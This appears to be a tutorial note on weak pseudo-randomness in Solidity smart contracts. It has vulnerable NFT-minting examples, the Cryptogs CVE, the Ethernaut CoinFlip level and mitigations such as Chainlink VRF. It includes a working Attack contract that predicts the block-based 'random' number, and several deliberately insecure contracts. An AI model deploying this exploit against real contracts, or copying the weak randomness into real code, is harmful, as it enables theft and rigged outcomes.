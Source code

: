 ```yaml
---
title: 7.WeakRandomnes
tags:
- Solidity-Attack
---
```


# 7.WeakRandomnes

Weak PRNG due to a modulo on block.timestamp , now or blickhash.

These can be infulences by miners to some extent so they shoude be avoided.

Many Dapp are using Randomness , such as NFT , GameFi.

But due to everything on BlockChain are public and deterministic . Solidity does not have function to generate RandomNumbers. So many Developers are using some hash function to generate RandomNumbers like blockhash() and keccak256().

# Examples

## E-1

### Code

```solidity
 contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("", ""){}

    // 铸造函数：当输入的 luckyNumber 等于随机数时才能mint
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // get bad random number
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

### Observation

with quickly look , we can find the luckMint() take a number as the argument ，if `randomNumber == luckyNumber`  , users can mint `NFT`.

Because it use `blockhash` and `block.timestamp` . Attacker can easily guess the LuckNumber.

### Attack

```solidity
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // Prev calculate
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Attack
        nftAddr.luckyMint(luckyNumber);
    }
}
```

## E-2 TimeManipulation

The block timestamp is a uint64 value contained in the Ethereum block header, representing the UTC timestamp (in seconds) when the block was created. Before The Merge, Ethereum adjusted block difficulty based on computing power, so the block time was variable, averaging 14.5 seconds per block, and miners could manipulate the block time. After The Merge, the interval was changed to a fixed 12 seconds per block, and validators were no longer able to manipulate the block time.

In Solidity, developers can access the current block's timestamp by using the global variable `block.timestamp`, which is a uint256 type.

### Code

```solidity
contract TimeMnipulation is ERC721 {
    uint256 totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("", ""){}

    // 铸造函数：当区块时间能被7整除时才能mint成功
    function luckyMint() external returns(bool success){
        if(block.timestamp % 170 == 0){
            _mint(msg.sender, totalSupply); // mint
            totalSupply++;
            success = true;
        }else{
            success = false;
        }
    }
}
```

## E-3

```solidity
function randomNumber() public view returns (uint) {
    return uint(keccak256(abi.encodePacked(block.difficulty))) % 10;
}
```

## E-4 Real Attack on Cryptogs

[Cryptogs](https://cryptogs.io/) is the game of pogs on the Ethereum blockchain. It is a kind of game of slap-match. This game generates random numbers using `blockhash(uint blockNumber)` to decide the winner. In Solidity, `blockhash(uint blockNumber)` function returns ‘0’ when `blockNumber` is older than 256 blocks from the current block(`block.number`). Cryptogs doesn’t check the `blockNumber` whether it is too old or not, so attackers can predict the random numbers and always win.

Code：

There are two functions generating random numbers: `endCoinFlip()` and `throwSlammer()`. Both functions required preliminary functions: `startCoinFlip()` and `raiseSlammer()`.

First, let’s check `startCoinFlip()` and `endCoinFlip()`. The two functions decide who goes first.

![alt text](../Untitled.png)

[Attack on Pseudo-random number generator(PRNG) used in Cryptogs, an Ethereum (CVE-2018–14715)](https://medium.com/coinmonks/attack-on-pseudo-random-number-generator-prng-used-in-cryptogs-an-ethereum-cve-2018-14715-f63a51ac2eb9)

## E-6 Ethernaut::CoinFlip

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

我们只需要实现和CoinFlip中一样的逻辑就可以了，因为在整个过程都发生在一个tx中所以 `block.hash` 和 `block.number` 是相同的。

# Mitigation

- 我们通常使用预言机项目提供的链下随机数来预防这类漏洞。
- 在合并（The Merge）之前，以太坊矿工可以操纵区块时间，如果抽奖合约的伪随机数依赖于区块时间，则可能被攻击。合并之后，以太坊改为固定 12s 一个区块，并且验证节点不能操纵区块时间。因此这类攻击不会在以太坊上发生，但仍可能在其他公链中遇到。
- 1. Utilize decentralized randomness beacons like Chainlink’s VRF.